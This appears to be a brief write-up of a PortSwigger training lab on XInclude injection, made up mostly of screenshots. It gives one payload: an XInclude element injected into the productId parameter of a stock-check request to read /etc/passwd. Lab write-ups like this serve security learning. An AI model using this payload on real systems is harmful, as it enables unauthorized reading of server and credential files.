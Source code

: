 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/eec3fc0b-5939-496a-b2a7-9ec05fd69c59)

### Solution

First we use the check stock feature 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/90291740-9c14-46ac-ba71-5721cd79b59a)

now we set the value of the productId parameter to

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a0ce5c7c-02b8-481f-8a87-a5b5f47e87bd)

lab solved succesfully


